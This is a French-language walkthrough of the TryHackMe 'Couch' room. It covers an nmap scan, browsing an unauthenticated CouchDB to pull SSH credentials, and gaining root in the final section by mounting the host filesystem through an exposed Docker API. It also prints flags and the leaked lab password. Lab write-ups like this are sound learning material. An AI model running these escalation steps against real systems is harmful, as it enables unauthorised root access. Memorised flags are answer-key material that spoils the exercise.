

# Couch #

## Task 1 Resy Set Go ##

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo sh -c "echo '10.10.111.86 couch.thm' >> /etc/hosts"
[sudo] Mot de passe de tim : 

tim@kali:~/Bureau/tryhackme/write-up$ sudo nmap -A couch.thm -p-
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-16 19:52 CEST
Nmap scan report for couch.thm (10.10.111.86)
Host is up (0.032s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 a4:2e:ef:3a:84:5d:21:1b:b9:d4:26:13:a5:2d:df:19 (ECDSA)
|_  256 e1:6d:4d:fd:c8:00:8e:86:c2:13:2d:c7:ad:85:13:9c (ED25519)
5984/tcp open  http    CouchDB httpd 1.6.1 (Erlang OTP/18)
|_http-server-header: CouchDB/1.6.1 (Erlang OTP/18)
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=8/16%OT=22%CT=1%CU=41985%PV=Y%DS=2%DC=T%G=Y%TM=611AA62
OS:2%P=x86_64-pc-linux-gnu)SEQ(SP=103%GCD=1%ISR=10B%TI=Z%CI=I%II=I%TS=8)OPS
OS:(O1=M506ST11NW6%O2=M506ST11NW6%O3=M506NNT11NW6%O4=M506ST11NW6%O5=M506ST1
OS:1NW6%O6=M506ST11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN
OS:(R=Y%DF=Y%T=40%W=6903%O=M506NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 993/tcp)
HOP RTT      ADDRESS
1   31.86 ms 10.9.0.1
2   31.99 ms couch.thm (10.10.111.86)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 48.86 seconds
```

D'après les résultats de nmap on voit 2 services :    
Le service SSH sur le port 22.    
Le service HTTP sur le port 5984.  

**Scan the machine. How many ports are open?**

On voit deux ports ouverts.  

Réponse : 2    

**What is the database management system installed on the server?**

Sur les résultats de nmap la base de donnée s'appelle  CouchDB.    

Réponse : CouchDB     

**What port is the database management system running on?**

Nmap nous indique que CouchDB est sur le port 5984.   

Réponse : 5984    

**What is the version of the management system installed on the server?**

Nmap nous indique que la version de CouchDB est : 1.6.1    

Réponse : 1.6.1   

**What is the path for the web administration tool for this database management system?**

En regardant la documentation de couchDB [documentation](https://guide.couchdb.org/draft/tour.html). 

On trouve le chemin pour administrer couchDB.    

Réponse : _utils

**What is the path to list all databases in the web browser of the database management system?**

En regardant la documentation de couchDB [documentation](https://guide.couchdb.org/draft/tour.html). 

On trouve le chemin pour voir toutes les bases de données.   

Réponse : \/_all_dbs  

**What are the credentials found in the web administration tool?**



Dans la basse de donnée secret on trouve les identifiants.    

Réponse : atena:t4qfzcc4qN##    

**Compromise the machine and locate user.txt**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ ssh atena@couch.thm 
atena@couch.thm's password: 
Welcome to Ubuntu 16.04.7 LTS (GNU/Linux 4.4.0-193-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Last login: Fri Dec 18 15:25:27 2020 from 192.168.85.1
atena@ubuntu:~$ cat user.txt
THM{1ns3cure_couchdb}
```

On se connect sur le SSH avec les identifiants trouvés dans la basse de donnée.   
On lit le fichier user.txt    

Réponse : THM{1ns3cure_couchdb}  

**Escalate privileges and obtain root.txt**


```bash
atena@ubuntu:~$ cat .bash_history | tail
apt-get remove redis
nano root.txt
exit
sudo deluser USERNAME sudo
sudo deluser atena sudo
exit
sudo -s
docker -H 127.0.0.1:2375 run --rm -it --privileged --net=host -v /:/mnt alpine
uname -a
exit
```

A la fin du fichier .bash_history on voit que docker est utilisé pour avoir un accès en root.   

```bash
atena@ubuntu:~$ docker -H 127.0.0.1:2375 run --rm -it --privileged --net=host -v /:/mnt alpine
/ # id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)

/ # cat /mnt/root/root.txt 
THM{RCE_us1ng_Docker_API}

```

On exécuter la commande docker et on obtient un shell avec les droits root.    
On lit le fichier root.txt.  

La réponse est : THM{RCE_us1ng_Docker_API}   